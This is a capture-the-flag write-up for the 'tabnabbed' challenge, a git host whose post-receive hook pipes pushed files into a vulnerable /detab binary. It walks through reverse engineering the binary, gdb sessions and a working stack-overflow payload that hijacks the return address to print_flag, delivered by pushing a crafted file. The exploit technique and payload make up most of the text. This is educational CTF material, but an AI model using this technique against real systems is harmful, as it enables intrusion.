


#### Challenge Description:

> Good job! Your work helped us avert greater damage at the victim. Unfortunately the group came back and infiltrated another host. This time they hacked into the customer's central git repository host, installed a hook that enforces their source code indentation ideology and kicked the legitimate admins out.

> Before the admins lost access they were able to create a snapshot. With their consent, can you find a way back into the host at: `tabnabbed.challenges.adversary.zone:23230`

#### Write-Up:

For this challenge we have to exploit a buffer overflow in binary.

We're given a `.qcow2` qemu image with the host we need to exploit and an ssh key. This took me an embarassingly long time to access until I finally [mounted the image](https://gist.github.com/shamil/62935d9b456a6f9877b5) and changing the root password. It is a developer box running [gitolite](https://gitolite.com/gitolite/index.html), which allows users to run a few ssh commands and use git over ssh *without* getting a shell.   

```
$ ssh -i developers.key -p 23230 git@localhost help
hello devs, this is git@githost running gitolite3 v3.6.12-0-gf073598 on git 2.27.0

list of remote commands available:

	desc
	help
	info
	perms
	writable

$ ssh -i developers.key -p 23230 git@localhost info
hello devs, this is git@githost running gitolite3 v3.6.12-0-gf073598 on git 2.27.0

 R W	hashfunctions
```

We have read/write access to a repo called `hashfunctions` so we can clone and commit files to it. 

```
$ cat ~/.ssh/config
Host tabnab
     HostName localhost
     Port 23230
     IdentityFile ~/path/to/developers.key
$ git clone ssh://git@tabnab/hashfunctions
Cloning into 'hashfunctions'...
remote: Enumerating objects: 15, done.
remote: Counting objects: 100% (15/15), done.
remote: Compressing objects: 100% (12/12), done.
Receiving objects: 100% (15/15), 1.40 KiB | 1.40 MiB/s, done.
remote: Total 15 (delta 3), reused 0 (delta 0), pack-reused 0
Resolving deltas: 100% (3/3), done.
```

We are told that the attackers added a malicious hook, so checking out all the [server side hooks](https://git-scm.com/book/en/v2/Customizing-Git-Git-Hooks) and we see Space Jackal's work in `/home/git/repositories/hashfunctions.git/hooks/post-receive`: a short python script to run the program `/detab` on all files pushed to the repository and then pushing them back. Here is a snippet - the files are passed to `/detab` through standard input.  

```Python
def file_desinfect(path):
    with open(path, "rb") as reader:
        content = reader.read()

    with subprocess.Popen(["/detab"], stdin=subprocess.PIPE, stdout=subprocess.PIPE) as proc:
        stdout, _ = proc.communicate(input=content)

    with open(path, "wb") as writer:
        writer.write(stdout)

def d(path):
    for entry in os.listdir(path):
        fpath = os.path.join(path, entry)

        if os.path.isdir(fpath) and not os.path.basename(fpath).startswith("."):
            d(fpath)

        if os.path.isfile(fpath):
            file_desinfect(fpath)
```

Copying over `/detab` and looking at it in a reverse engineering program (I'm using Cutter with r2-ghidra decompiler). Here is main decompiled:




A bit garbled, but mostly just checks commandline arguments and then runs `vaccinate`. Here's `vaccinate` decompiled:



This decompiled code is a bit more straightforward. In the main loop, vaccinate runs `fgetc` and stores it in the buffer `acStack544` at the index `stream`. `var_4h` is a newline check, at the start and on any newline it is set to 1. If after a newline `fgetc` returns a tab, there is a nested for loop to instead write a fixed number of spaces to the buffer. And at the end, if the index of the buffer is ever equal to `0x200`, it writes the buffer to stdout and sets the index back to 0.

So the buffer overflow is clear - the index checks if the buffer is ever *equal* to `0x200` not greater than. Andthe index doesn't always go up by one every loop iteration, we can increment the index multiple times by sending a tab after a newline. Let's try to bypass the buffer overrun check:

```
$ python -c 'print("A"*0x1fe + "\n\t" + "B"*100)' | ./detab
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    BBBB�BBBBBBBBBBBB%
```

We get some weirdness so we probably overran the buffer, but its strange we don't get 100 Bs or a segmentation fault. Looking at how are decompiler sees the stack and we see why this isn't a trivial buffer overflow:


When we overrun the buffer (here it's `stream` at `rbp-0x220`), it runs into other variables we are using in the loop, `var_4h` and `var_8h`.  The only times characters are written to the buffer are when `var_4h` is 0 or 1, when overflowing the buffer with Bs `var_4h` is overwritten to 0x42 and the buffer never progresses. Looking at it in gdb and breaking at `fgetc`:

```
$ python -c 'print("A"*0x1fe + "\n\t" + "B"*30)' > payload
$ gdb -q ./detab
Reading symbols from ./detab...
(No debugging symbols found in ./detab)
(gdb) b *0x0040140a
Breakpoint 1 at 0x40140a
(gdb) r < payload
Starting program: ./detab < pres/payload

Breakpoint 1, 0x000000000040140a in vaccinate ()
(gdb) c 0x1fe
Will ignore next 509 crossings of breakpoint 1.  Continuing.

Breakpoint 1, 0x000000000040140a in vaccinate ()
(gdb) x/12x $rbp-0x20
0x7fffffffdf30:	0x41414141	0x00004141	0x00000000	0x41000000
0x7fffffffdf40:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffdf50:	0xffffdf80	0x00007fff	0x004015c4	0x00000000
(gdb) c 
Continuing.

Breakpoint 1, 0x000000000040140a in vaccinate ()
(gdb) x/12x $rbp-0x20
0x7fffffffdf30:	0x41414141	0x000a4141	0x00000000	0x0a000000
0x7fffffffdf40:	0x00000000	0x00000000	0x00000000	0x00000001
0x7fffffffdf50:	0xffffdf80	0x00007fff	0x004015c4	0x00000000
(gdb) c
Continuing.

Breakpoint 1, 0x000000000040140a in vaccinate ()
(gdb) x/12x $rbp-0x20
0x7fffffffdf30:	0x41414141	0x200a4141	0x00202020	0x09000000
0x7fffffffdf40:	0x00000004	0x00000000	0x00000001	0x00000001
0x7fffffffdf50:	0xffffdf80	0x00007fff	0x004015c4	0x00000000
(gdb) c
Continuing.

Breakpoint 1, 0x000000000040140a in vaccinate ()
(gdb) x/12x $rbp-0x20
0x7fffffffdf30:	0x41414141	0x200a4141	0x42202020	0x42000000
0x7fffffffdf40:	0x00000004	0x00000000	0x00000000	0x00000000
0x7fffffffdf50:	0xffffdf80	0x00007fff	0x004015c4	0x00000000
(gdb) c 15
Will ignore next 14 crossings of breakpoint 1.  Continuing.

Breakpoint 1, 0x000000000040140a in vaccinate ()
(gdb) x/12x $rbp-0x20
0x7fffffffdf30:	0x41414141	0x200a4141	0x42202020	0x42424242
0x7fffffffdf40:	0x42424242	0x42424242	0x00424242	0x00000000
0x7fffffffdf50:	0xffffdf80	0x00007fff	0x004015c4	0x00000000
(gdb) c
Continuing.

Breakpoint 1, 0x000000000040140a in vaccinate ()
(gdb) x/12x $rbp-0x20
0x7fffffffdf30:	0x41414141	0x200a4141	0x42202020	0x42424242
0x7fffffffdf40:	0x42424242	0x42424242	0x42424242	0x00000000
0x7fffffffdf50:	0xffffdf80	0x00007fff	0x004015c4	0x00000000
(gdb) c
Continuing.

Breakpoint 1, 0x000000000040140a in vaccinate ()
(gdb) x/12x $rbp-0x20
0x7fffffffdf30:	0x41414141	0x200a4141	0x42202020	0x42424242
0x7fffffffdf40:	0x42424242	0x42424242	0x42424242	0x00000042
0x7fffffffdf50:	0xffffdf80	0x00007fff	0x004015c4	0x00000000
(gdb) c
Continuing.

Breakpoint 1, 0x000000000040140a in vaccinate ()
(gdb) x/12x $rbp-0x20
0x7fffffffdf30:	0x41414141	0x200a4141	0x42202020	0x42424242
0x7fffffffdf40:	0x42424242	0x42424242	0x42424242	0x00000042
0x7fffffffdf50:	0xffffdf80	0x00007fff	0x004015c4	0x00000000
(gdb) 
```

We want to overwrite `0x004015c4`, the return address of `vaccinate`, but we get stuck at when we overwrite `var_4h`, here at `0x7fffffffdf4c`. But if we change our payload to write newlines right before it is set to overwrite `var_4h`, detab will overwrite `var_4h` with 1 *after* we overwrite it with a bad value and we can keep overflowing the buffer:

```
$ python -c 'print("A"*0x1fe + "\n\t" + "B"*17 + "\n\n\n\n" + "C"*20)' > payload
$ gdb -q ./detab
Reading symbols from ./detab...
(No debugging symbols found in ./detab)
(gdb) b * 0x0040140a
Breakpoint 1 at 0x40140a
(gdb) r < pres/payload3 
Starting program: ./detab < payload

Breakpoint 1, 0x000000000040140a in vaccinate ()
(gdb) c 0x1fe
Will ignore next 509 crossings of breakpoint 1.  Continuing.

Breakpoint 1, 0x000000000040140a in vaccinate ()
(gdb) x/12x $rbp-0x20
0x7fffffffdf30:	0x41414141	0x00004141	0x00000000	0x41000000
0x7fffffffdf40:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffdf50:	0xffffdf80	0x00007fff	0x004015c4	0x00000000
(gdb) c 19
Will ignore next 18 crossings of breakpoint 1.  Continuing.

Breakpoint 1, 0x000000000040140a in vaccinate ()
(gdb) x/12x $rbp-0x20
0x7fffffffdf30:	0x41414141	0x200a4141	0x42202020	0x42424242
0x7fffffffdf40:	0x42424242	0x42424242	0x42424242	0x00000000
0x7fffffffdf50:	0xffffdf80	0x00007fff	0x004015c4	0x00000000
(gdb) c
Continuing.

Breakpoint 1, 0x000000000040140a in vaccinate ()
(gdb) x/12x $rbp-0x20
0x7fffffffdf30:	0x41414141	0x200a4141	0x42202020	0x0a424242
0x7fffffffdf40:	0x42424242	0x42424242	0x42424242	0x00000001
0x7fffffffdf50:	0xffffdf80	0x00007fff	0x004015c4	0x00000000
(gdb) c 3
Will ignore next 2 crossings of breakpoint 1.  Continuing.

Breakpoint 1, 0x000000000040140a in vaccinate ()
(gdb) x/12x $rbp-0x20
0x7fffffffdf30:	0x41414141	0x200a4141	0x42202020	0x0a424242
0x7fffffffdf40:	0x42424242	0x42424242	0x00000000	0x00000001
0x7fffffffdf50:	0xffffdf80	0x00007fff	0x004015c4	0x00000000
(gdb) c 4
Will ignore next 3 crossings of breakpoint 1.  Continuing.

Breakpoint 1, 0x000000000040140a in vaccinate ()
(gdb) x/12x $rbp-0x20
0x7fffffffdf30:	0x41414141	0x200a4141	0x42202020	0x43424242
0x7fffffffdf40:	0x42424242	0x42424242	0x00000000	0x00000000
0x7fffffffdf50:	0x43434343	0x00007fff	0x004015c4	0x00000000
```

Thankfully detab has a nice `print_flag` function at `0x004011d6`, so to complete the challenge: 

```
$ git clone ssh://git@tabnab/hashfunctions
Cloning into 'hashfunctions'...
remote: Enumerating objects: 17, done.
remote: Counting objects: 100% (17/17), done.
remote: Compressing objects: 100% (14/14), done.
Receiving objects: 100% (17/17), 1.61 KiB | 1.61 MiB/s, done.
remote: Total 17 (delta 4), reused 0 (delta 0), pack-reused 0
Resolving deltas: 100% (4/4), done.
$ cd hashfunctions
$ python -c 'import sys; sys.stdout.buffer.write(b"A"*0x1fe + b"\n\t" + b"B"*17 + b"\n\n\n\n" + b"C"*8 + bytes.fromhex("d6114000"))' > payload
$ git add payload
$ git commit -m "Tabs rule!"
$ git pull
remote: Enumerating objects: 7, done.
remote: Counting objects: 100% (7/7), done.
remote: Compressing objects: 100% (4/4), done.
remote: Total 4 (delta 2), reused 0 (delta 0), pack-reused 0
Unpacking objects: 100% (4/4), 362 bytes | 362.00 KiB/s, done.
From ssh://tabnab/hashfunctions
   a0becdb..64a736d  master     -> origin/master
Updating a0becdb..64a736d
Fast-forward
 payload | Bin 545 -> 557 bytes
 pl      | Bin 557 -> 519 bytes
 2 files changed, 0 insertions(+), 0 deletions(-)
$ cat payload
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    BBBBBBBBBBBBCCCCCCCC�@CS{th3_0ne_4nd_0nly_gith00k}
```